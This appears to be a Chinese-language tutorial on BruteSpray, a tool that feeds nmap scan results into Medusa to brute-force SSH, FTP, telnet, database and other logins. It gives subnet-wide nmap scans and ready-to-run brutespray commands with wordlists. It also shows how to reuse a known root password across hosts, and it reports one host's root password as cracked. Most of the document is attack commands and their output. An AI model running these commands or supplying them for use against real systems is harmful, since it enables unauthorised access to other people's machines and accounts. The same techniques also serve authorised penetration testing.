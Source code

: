 # 基于nmap扫描结果的端口爆破工具:BrutesPray
[![http://p2.qhimg.com/t01364a0c5c7f271e70.png](http://p2.qhimg.com/t01364a0c5c7f271e70.png "t01364a0c5c7f271e70.png")](http://p2.qhimg.com/t01364a0c5c7f271e70.png)

BruteSpray是一款基于nmap扫描输出的gnmap/XML文件.自动调用Medusa对服务进行爆破(Medusa美杜莎 是一款端口爆破工具,速度比Hydra九头蛇快)。

BruteSpray甚至可以通过Nmap –sV参数的扫描找到非标准端口。

官方地址：
```
https://github.com/x90skysn3k/brutespray
```

支持爆破的服务：
```
ssh,ftp,telnet,vnc,mssql,mysql,postgresql,rsh,imap,nntp,pcanywhere,pop3,rexec,rlogin,smbnt,smtp,svn,vmauthd
```

#### **1.安装**

BruteSpray默认没有集成到kali Linux中，需要手动安装，有的需要先在kali中执行更新，apt-get update 后才能执行安装命令：

```sh
apt-getinstall brutespray
```

kali Linux默认安装其用户和密码字典文件位置：/usr/share/brutespray/wordlist。

#### **2.BrutesPray使用参数**

用法: 
```
brutespray [-h] -f FILE [-o OUTPUT] [-sSERVICE] [-t THREADS] [-T HOSTS] [-U USERLIST] [-P PASSLIST] [-u USERNAME] [-pPASSWORD] [-c] [-i]
```

菜单选项:

```
-f FILE, —file FILE 参数后跟一个文件名, 解析nmap输出的GNMAP或者XML文件
-o OUTPUT, —output OUTPUT 包含成功尝试的目录
-s SERVICE, —service SERVICE 参数后跟一个服务名, 指定要攻击的服务
-t THREADS, —threads THREADS 参数后跟一数值,指定medusa线程数
-T HOSTS, —hosts HOSTS 参数后跟一数值,指定同时测试的主机数
-U USERLIST, —userlist USERLIST 参数后跟用户字典文件
-P PASSLIST, —passlist PASSLIST 参数后跟密码字典文件
-u USERNAME, —username USERNAME 参数后跟用户名,指定一个用户名进行爆破
-p PASSWORD, —password PASSWORD 参数后跟密码,指定一个密码进行爆破
-c, —continuous 成功之后继续爆破
-i, —interactive 交互模式
```

#### **3.使用nmap进行端口扫描**

**（1）扫描整个内网C段**

```sh
nmap -sV 192.168.17.0/24 -oX nmap.xml
```

**（2）扫描开放22端口的主机**

```sh
nmap -A -p 22 -v 192.168.17.0/24 -oX 22.xml
```

**（3）扫描存活主机**

```sh
nmap –sP 192.168.17.0/24-oX nmaplive.xml
```

**(4)扫描应用程序以及版本号**

```sh
nmap  -sV –O 192.168.17.0/24 -oX nmap.xml
```
#### **4.暴力破解SSH密码**

**（1）交互模式破解**

```sh
brutespray --file nmap.xml –i
```

执行后，程序会自动识别nmap扫描结果中的服务，根据提示选择需要破解的服务，线程数、同时暴力破解的主机数，指定用户和密码文件，如图 10所示。Brutespray破解成功后在屏幕上会显示“SUCCESS ”信息。

![](https://ask.qcloudimg.com/http-save/yehe-1268449/7aybwpx8yy.jpeg)

图10交互模式破解密码

**（2）通过指定字典文件爆破SSH**

```sh
brutespray --file 22.xml -U /usr/share/brutespray/wordlist/ssh/user -P/usr/share/brutespray/wordlist/ssh/password --threads 5 --hosts 5
```

注意:

brutespray新版本的wordlist地址为/usr/share/brutespray/wordlist，其下包含了多个协议的用户名和密码，可以到该目录完善这些用户文件和密码文件。

**（3）暴力破解指定的服务**

```sh
brutespray --file nmap.xml --service ftp,ssh,telnet --threads 5 --hosts 5
```

**（4）指定用户名和密码进行暴力破解**

当在内网已经获取了一个密码后，可以用来验证nmap扫描中的开放22端口的服务器，如图11所示，对192.168.17.144和192.168.17.147进行root密码暴力破解，192.168.17.144密码成功破解。

```sh
brutespray -f 22.xml -u root -p toor --threads 5 --hosts 5
```

![](https://ask.qcloudimg.com/http-save/yehe-1268449/4apx9ye2ew.jpeg)

图11 对已知口令进行密码破解

**（5）破解成功后继续暴力破解**

```sh
brutespray --file nmap.xml--threads 5 --hosts 5 –c
```

前面的命令是默认破解成功一个帐号后，就不再继续暴力破解了,此命令是对所有账号进行暴力破解，其时间稍长。

**（6）使用Nmap扫描生成的nmap.xml进行暴力破解**

```sh
brutespray --file nmap.xml --threads 5 --hosts 5
```

#### **5.查看破解结果**

Brutespray这一点做的非常好，默认会在程序目录/brutespray-output/目录下生成ssh-success.txt文件，使用cat ssh-success.txt命令即可查看破解成功的结果，如图12所示。

![](https://ask.qcloudimg.com/http-save/yehe-1268449/ikhrc2n19g.jpeg)

图12查看破解成功的记录文件

也可以通过命令搜索ssh-success 文件的具体位置：find / -name ssh-success.txt






